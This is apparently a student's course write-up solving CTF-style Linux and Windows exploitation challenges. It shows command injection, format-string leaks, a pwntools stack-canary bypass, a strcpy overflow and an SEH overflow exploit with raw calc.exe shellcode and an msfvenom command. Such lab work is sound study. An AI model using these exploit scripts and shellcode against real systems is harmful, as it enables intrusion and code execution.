









# Writeups
- Date: 2024-06-23
- Minor: Software Reversing and Exploitation

**Challenges:**
- Linux dungeons: 1, 2, 4, 5 (did not do vulnerability discovery)
- Windows challenges: 1, 3, 4, 6

I was not able to fuzz the serial killer gui and automate Windows modern 2 and 3 binaries with use of vulnerability discovery. I did practice with the [angr examples](https://docs.angr.io/en/latest/examples.html) for Linux and [vulnserver](https://github.com/stephenbradshaw/vulnserver) fuzzing with Spike but not enough to make use of them in the challenges.

# Linux Dungeon 1
The binary takes an input and attempts to ping it. The unfriendly guard is confused by our sudden disappearance. Entering an ip address like localhost at least confirms it uses that input.



- `gdb` tells us it has no debugging symbols so we don't have the original source code.
- `info functions` shows some interesting function names: `main`, `gate` and `vault`.
- We want to breakpoint them with `break main` and `break gate`. The vault function does not seem to be executed.
- gate prints a string with `puts` and reads from stdin with `fgets` with a 0x20 buffer (which is surely enough for IPv6 addresses).
- The `system` call looks suspicious as that seems to execute the `ping -c 3` command, so we breakpoint it.
- When stepping into the system call, notice our input is concatenated with the ping command in the stack frame *args*.


- Now with this in mind, with command injection we can chain other commands like `; flag.txt` into the system call.


# Linux Dungeon 2
The guard is now accepting two numbers and happily divides them with his cpu.


- This dungeon is similar to the first one but in the `gate` function. This time two numbers will be read via `__isoc99_scanf`, dividing the first number by the second.

- I can't properly explain the control flow of the assembly instructions for dividing by zero. From what I saw the `al` (lower AX register) will be 1 in case of a divide by zero condition and that is what leaves the door to the `vault` open, so to say.



- It was easy to observe and try different numbers to get the flag, but difficult to understand the assembly instructions which lead to it.


# Linux Dungeon 4
**References:**
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/format-string-bug

## Analysis
I ran the binary and the guard seemed to ask for a fruit, with the first input being printed out again to the terminal, and the second input being used for the answer.

Having looked at the `gate` function in the decompiled code with Binary Ninja, I tried entering one of the fruits with `apple?` and it only rarely got accepted by the guard after trying it multiple times.

I then noticed the `printf` call directly taking user input from `fgets` which appeared vulnerable to format string attacks.



## Pseudocode
In the pseudocode I first tried to replicate the format string vulnerability before testing on the `dungeon4` binary.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h> 

int main() {
    srand(time(NULL)); // set random seed
    char fruits[][10] = {
        "apple?",
        "avocado?",
        "banana?",
        "berries?",
        "cherry?",
        "grapes?",
        "kiwi?",
    };
    char answer[10];
    strcpy(answer, fruits[rand()%7]); // get a random fruit
    puts(answer);
    // format string attack
    printf("1.%p\n2.%p\n3.%p\n4.%p\n5.%p\n6.%p\n7.%p\n8.%p\n9.%p\n10.%p\n11.%p\n12.%p\n13.%p\n14.%p\n15.%p\n16.%p\n17.%p");
    return 0;
}
```
The `%p` specifier here prints the pointer addresses on the stack, I could see that the 6th and 7th %p contained the random fruit. The remaining values on the stack would always contain the array of fruits in thhat specific order.
```lua
banana?
1.0x562770fa52a0
2.(nil)
3.0x7f8e21bbaba0
4.0x400
5.0x410
6.0x6162000000000000    ab
7.0x3f616e616e          ?anan
8.0x3f656c707061        ?elppa
9.0x6461636f76610000    dacova
10.0x616e616200003f6f   anab?o
11.0x65620000003f616e   eb?an
12.0x3f7365697272       ?seirr
13.0x3f797272656863     ?yrrehc
14.0x7365706172670000   separg
15.0x6977696b0000003f   iwik?
16.0x3f                 ?
17.(nil)
```

## Exploiting
Now when trying this on the challenge binary, the random fruit appeared to be on the 8th and 9th position in the stack.
```sh
$ ./dungeon4
Guard: I am hungry, I want to eat some fruit..
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

Guard: So you think I like?
0x5614307ef2a0 (nil) 0x7f4f0ec0cba0 0xfc 0x410 0x7ffe7713d856 0x7ffe7713d8b0 0x65622f2f2f2f2f2f 0x3f7365697272 0x3f656c707061 0x6461636f76610000 0x616e616200003f6f 0x65620000003f616e 0x3f7365697272 0x3f797272656863 0x7365706172670000 0x6977696b0000003f 0x3f
```
```py
# hex to ascii
aCï*OÀË ÀAþwØVÿçq=‹eb//////÷6V—' ?elppaF6÷fanab?oV öà?seirr÷—'&V†0separg—v–°ð?
```
This approach could be optimized with a decimal index, like `%9$p %8$p` for the format string specifier.
```sh
$ ./dungeon4
Guard: I am hungry, I want to eat some fruit..
%9$p %8$p

Guard: So you think I like?
0x3f6f6461636f 0x76612f2f2f2f2f2f
avocado?

Guard: Numnumnum..you..can..pass..numnumnum..
JCR(Treasure!)
```
```py
# converting the hex values to ascii in python
hex = "3f6f6461636f 76612f2f2f2f2f2f"
ascii = bytes.fromhex(hex).decode('utf-8')
print(ascii) # ?odacova//////
```

# Linux Dungeon 5
**References:**
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
- https://ir0nstone.gitbook.io/notes/types/stack/canaries

## Analysis
This time when running the binary the guard has a little canary on its shoulder. From looking at the `gate` function the binary also appears to be vulnerable to format string attacks, in addition to buffer overflows from the `gets` API function.



## Pseudocode
I made another pseudocode example for easier testing, but this only slightly helped me to understand the control flow as there seemed to be differences with the actual challenge binary.
```c
#include <stdio.h>
#include <string.h>

int vault() {
    FILE *fp = fopen("./flag.txt", "r");
    char s[0x30];
    fgets(s, 0x20, fp);
    puts(s);
    fclose(fp);
}

void gate() {
    char s[0x50];
    puts("I want a cookie!");
    gets(s);
    printf(s);
    puts("\nGive me another one!");
    gets(s);
    puts("The canary died from poison.");
}

int main() {
    gate();
    return 0;
}
```

## ROP
I tried to smash the stack with a buffer overflow via `gets` and then use Return Oriented Programming (ROP) to overwrite the return address on the stack for the gate function, making it point to `vault` instead of `main`.

I could succesfully overwrite the EIP register with "ABCD".



But once I tried actually overwriting it with the address of the vault, it would fail to overwrite EIP, it would change into 0x556188c3 instead of the adress of the vault.
```sh
gdb-peda$ p vault
$4 = {<text variable, no debug info>} 0x4006b7 <vault>
```


## Stack canary
So I checked the protections on the binary with checksec. Both the CANARY and NX mitigations were enabled.
```lua
gdb-peda$ checksec

CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
If a canary on the stack is overwritten, then the OS detects there is a stack buffer overflow. I first had to find the canary and when doing a buffer overflow had to make sure it's overwritten with the same value.

While looking at the format string vulnerabilities I suspected that the stack canary was at the 15th position, since it's a random value and always terminated by a null byte character.
- https://en.wikipedia.org/wiki/Stack_buffer_overflow#Exploiting_stack_buffer_overflows
```sh
└─$ ./dungeon5
Canary on guards shoulder: Gwaaaa! I want a cookie!
%14$p %15$p %16$p
(nil) 0x8f85d05bd6e2d500 0x7fff1b50aae0
(nil) 0x2b670208d7fc1d00 0x7fff9e50ca90
(nil) 0x102864a8745abe00 0x7fff4e411da0
```

With pwntools I could now get the stack canary, and include it in the payload while to overwrite the return address on the stack.
```py
from pwn import *
from os import chdir

chdir('challenges_catandmouse/linux')
p = process('./dungeon5')

p.clean()
p.sendline('%15$p')      # value of stack canary

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 72
payload += p64(canary)   # overwrite stack canary with same value
payload += b'A' * 8      # padding for return pointer
payload += p64(0x4006b7) # adress of vault

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```
```sh
[+] Starting local process './dungeon5': pid 84271
[*] Canary on guards shoulder: Gwaaaa! I want a cookie!
  p.sendline('%15$p')
[+] Canary: 0xb7c2384a680e9300
The canary died from poison, the guard attacks you!
JCR(Treasure!)
```

# Windows Challenge 1
## Authorization
This challenge was a giant roadblock. After debugging I kept assuming that you needed to give the unix time to authenticate before giving the password. I did not even try fuzzing it with different kind of inputs.

The unix time being checked threw me off greatly, I initially was looking for solutions how to programmatically pass the unix time in Python.

I did receive the hint about the `_read_number` function which calls `_scanf` and reads a long long unsigned interger (%llu), which means it cannot be negative. But negative numbers can only be floating point numbers, so passing `-1` or a huge number would still pass the first check for authentication.

I also was labeling functions (or subroutines) and adding comments to the addresses. In this screenshot the -1 to pass the authentication can be seen in the stack as `FFFFFFFF FFFFFFFF`.



## Password
Getting the password was trickier, you had to use the same technique but in a more refined way. The question is how to make eax match `0x133333337`, when it's being multiplied with another register in the previous instruction. The most logical way was to make sure the `edx` register would be 1.

```asm
imul  eax, edx
cmp   eax, 133333337
```

By entering AAAABBBBCCCCDDDD as decimal value you could follow its value into the stack.




With this information we could set the eax and edx registers to the required values.


 I have further investigated this by looking for different possible solutions with Python.

```py
from subprocess import Popen, PIPE
from os import chdir

# for the binary to print the flag from relative path 
chdir('challenges_early_days/img/windows/challenge1')

passwords = [
	"4617089847",          # 0x 00000001 13333337 <- 1 * 322122551
	"1383505821849092097", # 0x 13333337 00000001 <- 322122551 * 1
	"20405389691097",      # 0x 0000128F 000108D9 <- 4751 * 67801
	"291203077640847",     # 0x 000108D9 0000128F <- 67801 * 4751
]

for v in passwords:
	p = Popen(['numbers.exe'], stdin=PIPE, stdout=PIPE, stderr=PIPE)

	p.stdin.write(b'-1\n')
	p.stdin.flush()

	print("writing "+v)
	p.stdin.write((v+"\n").encode())
	p.stdin.flush()

	p.stdin.close()
	print(p.stdout.read().decode())
	p.kill()
```


# Windows Challenge 3
I divided the challenge into smaller steps. First by observing the binary and running it directly, then playing around with ncat. I had to change my Windows 10 VM to a Bridged Adapter to get some actual networking going and finally running `./ncat -knlvp 3000 -e uploader.exe`.

I had a peek at the decompiled code from Snowman, there I found a `system` call, it however was using a string literal arg. The `list` command here is implemented by  executing `cmd.exe` and sending the file dir back to the client.

But you can upload files with custom names, so I tested if this was feasible by manually making a *Hello World* `cmd.exe` on the Windows 10 VM, and then sending `list` from my client socket. It actually executed the binary. ```c
} else {
	_system("cmd /c dir 2>&1", "list", v9, 0);
	esp11 = reinterpret_cast<void*>(esp22 - 1 + 1);
	goto addr_401b26_15;
}

But I realized it would be more straightforward with a .bat file that calls the Windows equivalent of cat which is [type](https://superuser.com/questions/434870/what-is-the-windows-equivalent-of-the-unix-command-cat). This indeed worked and it felt good getting the flag this way. I went back to try uploading an executable binary but without success.


# Windows Challenge 4
The `challenge4.exe` PE binary accepts another binary via a command line argument and prints the names of the section headers. For example we can pass a copy of the same binary to it. It's not allowed to modify the original binary, but we can do anything we want with a binary passed to it.


According to winchecksec ASLR is enabled and NX/DEP is disabled.
```
PS > winchecksec .\challenge4.exe
Dynamic Base    : "Present"
ASLR            : "Present"
Isolation       : "Present"
NX              : "NotPresent"
```

We can use a format string vulnerability by editing the section headers in the target binary with PE-bear, e.g. from `.text` to `%p`. The leaked address is the dynamic base (starting) address of the binary in memory, which is useful since we can derive at which address each section is in memory by an offset.


This pointer can be verified to be the base address when opening the binary in a debugger.


The second input is vulnerable to a buffer overflow, which is able to overwrite the `eip` register after 84 bytes.


Our input seems to be copied with strcpy, it however has a quirk that it appears to expect a null-terminated string. But when I tried to overwrite the eip register with an actual pointer to an address this failed; eip did not get overwritten. When we put a null byte as the first char we can overwriting eip succesfully with a pointer.


Now that we took over the control flow I still needed to execute shellcode, but was struggling with hex editors. It was not feasible to use PE-bear for that so I used [010 Editor](https://www.sweetscape.com/010editor/) to place my [shellcode](https://www.exploit-db.com/shellcodes/48116) into the `.rdata` section which had some empty space at offset `0x2490`.

I had to use python since it was not possible to paste a string leading with a null byte.

```py
binary = 'challenge4.exe'
arg1 = 'challenge4a.exe'
proc = subprocess.Popen([binary, arg1], stdin=subprocess.PIPE)

# offset to shellcode in .rdata section
offset = 0x2490 # pops calc.exe https://www.exploit-db.com/shellcodes/48116

base_offset = int(input(), 16) + offset
shellcode_addr = struct.pack('<I', base_offset) # convert to little endian

buf = b'\x00' # start with a null byte because of the bogus strcpy
buf += b'\x41' * 83
buf += shellcode_addr

proc.communicate(input=buf)
```


# Windows Challenge 6
The goal is to take over the program control flow on a Windows 32-bit binary, like making it launch `calc.exe`.

**References:**
- https://coalfire.com/the-coalfire-blog/the-basics-of-exploit-development-2-seh-overflows
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow

## Analysis
- The binary in the zip file is `challenge6.exe`.

`Git\usr\bin\file` shows it's a x86/32-bit Portable Executable binary.
```
PS C:\Dev> file challenge6.exe
challenge6.exe: PE32 executable (console) Intel 80386, for MS Windows
```

According to [winchecksec](https://github.com/trailofbits/winchecksec), it's possible to use SEH and the SafeSEH mitigation is not enabled.
```py
PS C:\Dev> winchecksec challenge6.exe
Warn: undersized load config, probably missing fields
Results for: challenge6.exe
Dynamic Base    : "NotPresent"
ASLR            : "NotPresent"  # "Binaries with ASLR support have randomized virtual memory layouts. ASLR is enabled by dynamic base support (without stripped relocation entries) or by using a managed runtime like .NET."
High Entropy VA : "NotPresent"
Force Integrity : "NotPresent"
Isolation       : "Present"     # "Binaries with isolation support cause the Windows loader to perform a manifest lookup on program load."
NX              : "NotPresent"  # "Binaries with NX support can be run with hardware-enforced memory permissions (i.e., hardware DEP)."
SEH             : "Present"     # "Binaries with SEH support can use structured exception handlers."
CFG             : "NotPresent"
RFG             : "NotPresent"
SafeSEH         : "NotPresent"  # "Binaries with SafeSEH enabled have additional protections for stack-based structured exception handlers."
GS              : "Present"     # "Binaries with GS enabled have additional protections against stack-based buffer overflows."
Authenticode    : "NotPresent"
.NET            : "NotPresent"
```

The binary is observed to print the same message back, if there are multiple argvs it prints `= [No] =`.
```
PS C:\Dev\challenge6> .\challenge6.exe hello
hello

PS C:\Dev\challenge6> .\challenge6.exe hello world
= [No] =
```
It seems to crash from a buffer overflow when passing  more than 47 characters.
```
PS C:\Dev\challenge6> .\challenge6.exe AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

PS C:\Dev\challenge6> .\challenge6.exe AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
```

So this might be vulnerable to Structured Exception Handler (SEH) overflows.

## Exploitation
### Find SEH position
We start with passing an arbitrary amount of like 300 A's to check if the SEH records can be overwritten.
```py
f = open("crash1.txt", "wb")

buf = b"\x41" * 300

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Command-line arguments are passed via this menu.


After a few times pressing F9, the SEH handler pointer and record pointer are overwritten with `41414141`.


Now we can use a non-repeating pattern (NRP) to see at which position the SEH records get overwritten. Note that all ERC commands only work while the debugger is attached to a process.
```py
ERC --Pattern create 300
```


We need to combine the output into a long string to paste it into the command-line argument.
```py
f = open("pattern.txt", "w")

buf = ""
buf += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac" 
buf += "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8" 
buf += "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A" 
buf += "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"

f.write(buf)
f.close()
# Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```


Now we run the program and find the position of the SEH record at 60.
```
ERC --FindNrp
```


### Overwriting SEH record
Update the payload to overwrite the SEH record with B's and C's.
```py
f = open("crash2.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\x42\x42\x42\x42" # BBBB
buf += b"\x43\x43\x43\x43" # CCCC
buf += b"\x44" * 10        # DDDD...

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDDDDDDD
```

Run the program and the first SEH record is confirmed to be overwritten with B's `(0x42)`.


### Finding a POP, POP, RET pointer
Now that we control the SEH record, we need to find an eligible POP, POP, RET instruction set which does not have protections like ASLR. It should be from a DLL or EXE of the program itself.
```
ERC --SEH
```


After breakpointing the first address and debugging, this instruction seems to get executed first. The other ones get executed later or are part of invalid `POP, POP, POP, RET` instructions.
```py
0x01401318 | pop ecx, pop ecx, ret | False |  False   |  False   |   False   |  False  |  C:\Dev\challenge6\challenge6.exe 
```

### Overwriting SEH record with address
We overwrite the SEH handler pointer with the (little-endian) address of our POP, POP, RET instruction.
```py
f = open("crash3.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\x42\x42\x42\x42" # BBBB
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x44" * 10        # DDDD...

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB@DDDDDDDDDD
```
When debugging we confirm that the record is overwritten with `0x01401318`.


And that our breakpointed POP, POP, RET instruction set jumps to this address when stepping over (with F8).


### Jumping to NOP sled
We overwrite the SEH record with a relative JMP instruction to our [NOP sled](https://en.wikipedia.org/wiki/NOP_slide). It needs to jump by at least 8 bytes, so somewhere in the middle at 13 bytes should be safe.
- `ERC --Assemble jmp 0013` = `EB 0B`
- `ERC --Assemble nop` = `90`
```py
f = open("crash4.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\xeb\x0b\x90\x90" # jump 13 bytes
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x90" * 50        # NOP sled

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA됐@
```
Confirm we jump into the NOP sled.


### Shellcode
The Coalfire writeup uses Msfvenom to generate shellcode, but I was not able to pass the payload properly as a command-line argument, maybe because of encoded (double) quotes and spacing. At least `NUL, LF, CR` should be bad characters.
```
msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
```


The shellcode from https://www.exploit-db.com/shellcodes/48116 by Bobby Cooke seemed to work fine.  
*Never trust shellcode, always disassemble it first with sites like https://defuse.ca/online-x86-assembler.htm*
```py
f = open("seh_exploit.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\xeb\x0b\x90\x90" # jump 13 bytes
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x90" * 50        # NOP sled

# https://www.exploit-db.com/shellcodes/48116
buf += b"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
buf += b"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
buf += b"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
buf += b"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
buf += b"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
buf += b"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
buf += b"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
buf += b"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
buf += b"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
buf += b"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
buf += b"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
buf += b"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
buf += b"\x52\xff\xd0"

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA됐@‰åƒì 1Ûd‹[0‹[‹[‹‹‹C‰Eü‹X<Ë[xË{ lj}ø‹K$Á‰Mô‹S‰Uð‹S‰Uìë21À‹Uì‹}ø‹u1Éü‹<‡}üfƒÁó¦t@9Ðrä‹Mô‹Uðf‹A‹‚EüúxxecÁêRhWinE‰eè¸ÿÿÿ1ÉQh.exehcalc‰ãAQSÿÐ1ɹessÁéQhProchExit‰eè‡ÿÿÿ1ÒRÿÐ
```
- Use `ANSI / ISO 8859-1` encoding instead of UTF-8 if using VS Code, it appears to otherwise mess up the payload.
- Enclose the payload in double quotes when passing it as command-line argument, since there seems to be a single quote and a space char encoded in the payload.


Now when debugging the shellcode, `calc.exe` should be popped.


When not using a debugger it will take a while to pop calc.exe and does so in an infinite loop while slowing down the system; I suppose this is not intended behavior, but in the debugger you can observe the control flow will keep jumping from the shellcode to the exception handler and back into the POP POP RET instruction set.

- Pasting from the clipboard into PowerShell with right-click instead of `ctrl-v` appears to break the input.


# Appendix: Linux code
```py
from pwn import *

# does not do vulnerability discovery and automating, still trying to learn about angr
def main():
    while True:
        print('Choose an ELF binary:')
        print('0. exit')
        print('1. dungeon 1')
        print('2. dungeon 2')
        print('4. dungeon 4')
        print('5. dungeon 5')

        choice = input()
        if choice == '0':
            print('exiting')
            return
        elif choice == '1':
            dungeon1()
        elif choice == '2':
            dungeon2()
        elif choice == '4':
            dungeon4()
        elif choice == '5':
            dungeon5()

def dungeon1():
    p = process('./dungeon1')
    p.clean()
    p.sendline(b'; cat flag.txt')
    print(p.clean().decode())

def dungeon2():
    p = process('./dungeon2')
    p.clean()
    p.sendline(b'1')
    p.sendline(b'0')
    print(p.clean().decode())

def dungeon4():
    p = process('./dungeon4')
    p.clean()
    p.sendline(b'%9$p %8$p')
    p.recvline()
    leak = p.recvline()
    # trim 0x from hex string
    ascii = leak.decode().replace('0x', '')
    ascii = bytes.fromhex(ascii).decode()
    ## trim nullbytes and reverse the string
    ascii = ascii.replace('\x00', '')
    ascii = ascii.replace('\x08', '')
    ascii = ascii[::-1]
    log.success(f'Writing: {ascii}')
    p.sendline(ascii.encode())
    print(p.clean().decode())

def dungeon5():
    p = process('./dungeon5')
    p.clean()
    p.sendline('%15$p')      # value of stack canary

    canary = int(p.recvline(), 16)
    log.success(f'Canary: {hex(canary)}')

    payload = b'A' * 72
    payload += p64(canary)   # overwrite stack canary with same value
    payload += b'A' * 8      # padding for return pointer
    payload += p64(0x4006b7) # adress of vault

    p.clean()
    p.sendline(payload)
    print(p.clean().decode())

if __name__ == '__main__':
    main()
```
